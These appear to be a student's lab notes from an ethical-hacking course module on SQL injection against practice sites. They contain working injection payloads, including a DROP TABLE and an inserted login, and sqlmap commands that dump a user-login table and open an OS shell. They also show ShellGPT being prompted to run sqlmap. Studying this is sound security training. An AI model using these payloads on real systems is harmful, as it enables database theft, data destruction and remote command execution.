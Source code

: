 # Module 15

## SQL Injection
SQL injection is a code injection technique that exploits security vulnerabilities in data-driven applications. It uses malicious SQL queries to manipulate databases, often to bypass authentication, access, or steal data. These attacks succeed when applications fail to properly validate user input before including it in a SQL statement.

**Objective**    
The primary goal of SQL injection is to interfere with the queries an application makes to its database. This interference is used to:

- Access unauthorized data: Read sensitive information like user credentials or personal data.
- Bypass security: Log into accounts without a password.
- Modify data: Insert, alter, or delete database records.

**Approach**
The attack exploits a simple flaw: failing to separate user input from code.

- Find an Input: Attackers target any user-input field (search box, login form, etc.).
- Craft a Payload: They enter a carefully crafted string that manipulates the intended SQL query's logic.
- Exploit the Flaw: If the input isn't properly sanitized, the database executes this malicious string as part of the code, not just as data, granting the attacker control over the query.

---

### 1. Perform SQL Injection attacks
SQL injection attacks are performed on SQL databases with weak codes that do not adequately filter, use strong typing, or correctly execute user input.

#### 1.1 SQL Injection on MSSQL Database

Payloads to check the injection
- `'OR 1=1 -- `

Operations on database
`Admin'; Insert into login values('john','apple123');--`  adding entry
`blah'; DROP TABLE users; --`

#### 1.2 Extract MSSQL Database with SQL MAP
**Steps**:
1. Navigate to http://www.moviescope.com/. A Login page loads; enter the Username and Password as sam and test, respectively. Click the Login button.
> If a Would you like Firefox to save this login for moviescope.com? notification appears at the top of the browser window, click Don’t Save.
2. Once you are logged into the website, click the View Profile tab on the menu bar and, when the page has loaded, make a note of the URL in the address bar of the browser.
3. Right-click anywhere on the webpage and click Inspect (Q) from the context menu, as shown in the screenshot.
4. The Developer Tools frame appears in the lower section of the browser window. Click the Console tab, type document.cookie in the lower-left corner of the browser, and press Enter.
5. Select the cookie value, then right-click and copy it, as shown in the screenshot. Minimize the web browser. Note down the URL of the web page.
6. Open a Terminal window and execute sudo su to run the programs as a root user (When prompted, enter the password toor).

- To retrieve cookie from console
  - `document.cookie`
- Now use the following commands to extract the database.
  - sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl="; --dbs
  - sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0" -D moveiscope --tables
  - sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0" -D moviescope -T user-Login --dump
- To get a shell
  - sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0" --os-shell
  - TASKLIST
  - help

**MySQL commands**
- `mysql -U qdpmadmin -h 192.168.1.8 -P passwod `
- `show databases;`
- `use qdpm;`
- `show tables'`
- `select * from users;`
- `show dtabases;`
- `use staff;`
- `show tables;`
- `select * from login;`
- `select * from user;`

You can also use other SQL injection tools such as Mole (https://sourceforge.net), jSQL Injection (https://github.com), NoSQLMap (https://github.com), Havij (https://github.com) and blind_sql_bitshifting (https://github.com).

---

### 2. Detect SQL Vulnerabilities using different tool
In this lab, you will learn how to test for SQL injection vulnerabilities using various other SQL injection detection tools.

#### 2.1 Detect SQLi with DSSS
[GitHub - stamparm/DSSS: Damn Small SQLi Scanner](https://github.com/stamparm/DSSS)
- `python3 dsss.py -u "http://testphp.vulnweb.com/artists.php?artist=1"`

#### 2.2 Detect SQLi with ZAP
Run automated scan and check the alerts tab.    
You can also use other SQL injection detection tools such as Damn Small SQLi Scanner (DSSS) (https://github.com), Snort (https://snort.org), Burp Suite (https://www.portswigger.net), HCL AppScan (https://www. hcl-software.com) etc. to detect SQL injection vulnerabilities.

---

### 3. Perform SQL Injection using AI
As an ethical hacker or penetration tester, you must have a sound knowledge on the integration of AI technology in identifying and exploiting SQL injection vulnerabilities

#### 3.1 Perform SQL Injection using ShellGPT
First we need to login to http://www.moviescope.com website and copy the cookie value.
- `sgpt --chat sql --shell “Use sqlmap on target url http://www.moviescope.com/viewprofile.aspx?id=1 with cookie value '[cookie value which you have copied in Step#3]' and enumerate the DBMS databases”`
- `sgpt --chat sql --shell “Use sqlmap on target url http://www.moviescope.com/viewprofile.aspx?id=1 with cookie value '[cookie value which you have copied in Step#3]' and enumerate the tables pertaining to moviescope database"`
-  `sgpt --chat sql --shell “Use sqlmap on target url http://www.moviescope.com/viewprofile.aspx?id=1 with cookie value '[cookie value which you have copied in Step#3]' and retrieve User_Login table contents `

---
---
